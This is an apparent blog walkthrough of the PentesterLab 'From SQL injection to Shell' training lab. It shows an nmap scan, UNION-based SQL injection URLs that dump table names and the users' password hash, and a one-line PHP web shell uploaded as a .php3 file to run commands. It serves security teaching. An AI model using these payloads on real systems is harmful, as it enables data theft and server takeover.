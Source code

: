 ```yaml
---
title: "Pentester Lab: From SQL injection to Shell -walkthrough"
date: 2020-06-22T20:48:38+05:30
draft: true
---
```

### About release 
- Name: Pentester Lab: From SQL injection to Shell
- Date release: 13 Sep 2012

- Author: Pentester Lab
- Series: Pentester Lab
- Web page: http://www.pentesterlab.com/exercises/from_sqli_to_shell/  

This machine was hosted on  pentesterlab.com.The goal was to teach how to exploit sql injection and gain administrator access.  

Before Going to exploits we should know some basics about sqli.   
SQL injection is a  vulnerability where an attacker interferes with the queries that an application makes to its database.  
If user input is not sanitized the attacker can inject sql commands in server.  
&nbsp;

In this blog post, i will perform sql injection and perform file upload to get shell access.     
First step was to know the ip address of your machine.if you use linux  you can know your ip address through ipconfig command.


Now, to identify  the services running on our ip address we use a software called nmap.

` nmap 192.168.42.0/24 `  

the above command scans a subnet.  
&nbsp;


![nmap output](/sqlitoshell/nmap-output.png) 


We can see http open on port 80 .
If we visit that we can see a website with title "My Awesome Photoblog".
Clicking on test we can see the url as "http://192.168.42.211/cat.php?id=1"  

The parameter id was a source of sql injection .You can verify that by typing quote next to parameter and it shows error .  
Now type " order by 1" next to id and it shows same output with no error message .  

Keep incrementing order by value till you get error .

Error occurs when you type ORDER BY 5 which means to request 4 column from database.

![order by error](/sqlitoshell/orderby.png)   
&nbsp;

now to get list of table name form the form our database we need to request TABLE_NAME from INFORMATION__SCHEMA.TABLES  

```http://192.168.42.211/cat.php?id=2 union select 1,TABLE_NAME,3,4 from INFORMATION_SCHEMA.TABLES```   
&nbsp;

![information schema](/sqlitoshell/INFO-SCHEMA.jpg)  
    
&nbsp;

Now we know there is a table called users .
similarly get the COLUMN_NAME  from table users .
we get 3 columns - id,login ,password .
Similarly we can retrieve password by using the following url  
```"http://192.168.42.211/cat.php?id=2 union select 1,password,3,4 from users" ```

&nbsp;

The password is hashed before storage . This  was md5 hash adn on decrypting we can see the password is "P4ssw0rd".  
We can get the login from users table.  
Login with te credential odbtained in admin page   
![admin page](/sqlitoshell/admin.jpg)  
we have upload image section .

for exploiting this we can use very simple php code.   
```&nbsp;

<?php  
  system($_GET['cmd']);  
?>
```  
Now we can execute commands in server through get parameter.  
upload doesnt accept php files but php3 works fine 

Using following url we can use ls on server 

```http://192.168.42.211/admin/uploads/exploit1.php3?cmd=%22ls%22```

&nbsp;

![exploit](/sqlitoshell/exploit-success.png)   
&nbsp;


These kind of vulnerablilty are hard to find in modern websites but still they are rarely available in internet today. 
we can do some privilage escalation to get root access.